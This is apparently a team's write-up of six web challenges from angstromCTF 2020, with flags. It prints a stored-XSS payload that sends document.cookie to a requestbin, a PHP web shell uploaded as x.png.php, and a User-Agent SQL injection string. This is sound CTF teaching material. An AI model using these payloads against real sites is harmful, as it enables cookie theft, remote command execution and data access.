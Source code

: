 # angstromCTF 2020
### This is our writeups for ångstromCTF 2020.
![angstrom-3e0d6c871da7786e59fcc988735f4f5ded75aab5fac89f538291b3ef033801eb](https://user-images.githubusercontent.com/36403473/77215806-d4b45380-6b1e-11ea-8853-b9539e6bc4d0.png)

i participated in ångstromCTF 2020 with my awesome team P1rates as python_4004 & my dude mokey  . This is our writeups about some challenges we solved during the competition.

# Web challenges 
## Git Good
 Noting the name of the challenge, I think the system is based on git management system 
 But I have to make sure first , so i will use dirb tool
![dirb](https://user-images.githubusercontent.com/36403473/77215204-85205880-6b1b-11ea-9ca2-a46a3b8c8347.png)

now lets try to download git files 
to do that open your terminal and write 
git clone +the link of the challenge 
##### <code> <b> git clone https://gitgood.2020.chall.actf.co/.git </b> </code> 
![Screenshot from 2020-03-21 02-37-29](https://user-images.githubusercontent.com/36403473/77215565-5f944e80-6b1d-11ea-9f41-b7f8d0feba48.png)
The first thing I thought about was looking at the log file
##### <code> <b>git log -p</b> </code>
![Screenshot from 2020-03-21 02-41-08](https://user-images.githubusercontent.com/36403473/77215657-037dfa00-6b1e-11ea-8edf-e4d6b2588f11.png)
the flag is :
#### actf{b3_car3ful_wh4t_y0u_s3rve_wi7h}
## Consolation

by clicking on <b> pay my some money </b> it call <b> nofret() </b> function so let's see  source code  
![Screenshot from 2020-03-21 03-36-56](https://user-images.githubusercontent.com/36403473/77216945-2f51ad80-6b27-11ea-8634-b35ee7b33fe3.png)

okey i found that javascript is obfuscated.
so we need to revesre this code ,i use this online platform to decode our obfuscated js file <b> http://www.jsnice.org/ </b>

![Screenshot from 2020-03-21 03-46-10](https://user-images.githubusercontent.com/36403473/77216996-86578280-6b27-11ea-808b-fe5a8a3fb972.png)

looking very well i found ohh lets delete this line and put thit function on console <b>console ["clear"] ();</b>

![Screenshot from 2020-03-21 04-02-07](https://user-images.githubusercontent.com/36403473/77217187-2feb4380-6b29-11ea-9442-0a00b9398630.png)

the flag is : 
#### <b> actf{you_would_n0t_beli3ve_your_eyes} </b>

## The Magic Word

it was very easy challenge what you should do only open <b>inspect</b>  and Change <b> "give flag" </b> to <b> "please give flag" </b>
![Screenshot from 2020-03-21 04-07-53](https://user-images.githubusercontent.com/36403473/77217291-fff07000-6b29-11ea-8a41-ac63fdd4ef62.png)
the flag is : 
#### <b> actf{1nsp3c7_3l3m3nt_is_y0ur_b3st_fri3nd} </b>

## Xmas Still Stands

This was an easy <b> xss stored </b>  challenge given the following:
 
first i post this post <img src=x onerror='requestbin?cookie='+document.cookie>
i use requestbin to get admin cookies 
![Screenshot from 2020-03-21 04-26-16](https://user-images.githubusercontent.com/36403473/77217832-1e586a80-6b2e-11ea-9c2c-020f7d1e9376.png)

i reported my post to admin , checking my requestbin i found the flag 

![9d2b4cb0-d98d-4053-a165-341fc82d376d](https://user-images.githubusercontent.com/36403473/77217880-9faffd00-6b2e-11ea-8e50-b45a691fbb00.jpeg)

the flag is :  
#### <b>actf{s4n1tize_y0ur_html_4nd_y0ur_h4nds} </b>

## Defund's Crypt
![Screenshot from 2020-03-21 04-57-04](https://user-images.githubusercontent.com/36403473/77218213-a12ef480-6b31-11ea-86c7-09e8394d72f5.png)
 It’s file upload injection so lets try to upload shell In the form of a picture format
i  googled and find this good  <a href="https://www.slideshare.net/HackIT-ukraine/15-technique-to-exploit-file-upload-pages-ebrahim-hegazy"> article </a> 
our extention will be x.png.php
this is our shell script <b> <?php system($_GET['cmd']);?> </b>
using <b> `burpsuit` </b> :

![89855682_714296872437271_6861930706059132928_n](https://user-images.githubusercontent.com/36403473/77218435-f966f600-6b33-11ea-9f09-65610aec3372.png)

#### response 
![89873018_212735623171923_7771926506762141696_n](https://user-images.githubusercontent.com/36403473/77218455-24e9e080-6b34-11ea-9e43-9ad8026e5ebd.png)

the flag is:
#### <b> actf{th3_ch4ll3ng3_h4s_f4ll3n_but_th3_crypt_rem4ins} </b>

## Secret Agents
from <b> `burpsuit` </b> i check user-agent header and try to inject it manually
After many attempts, I finally  i reach  to the flag 
using this query  `a' or 1 limit 1 offset 2 -- -`

![89852223_205522447361583_8420305932386304000_n](https://user-images.githubusercontent.com/36403473/77218690-b1959e00-6b36-11ea-9741-89c911e231ef.png)

the flag is :
#### <b> actf{nyoom_1_4m_sp33d} </b>
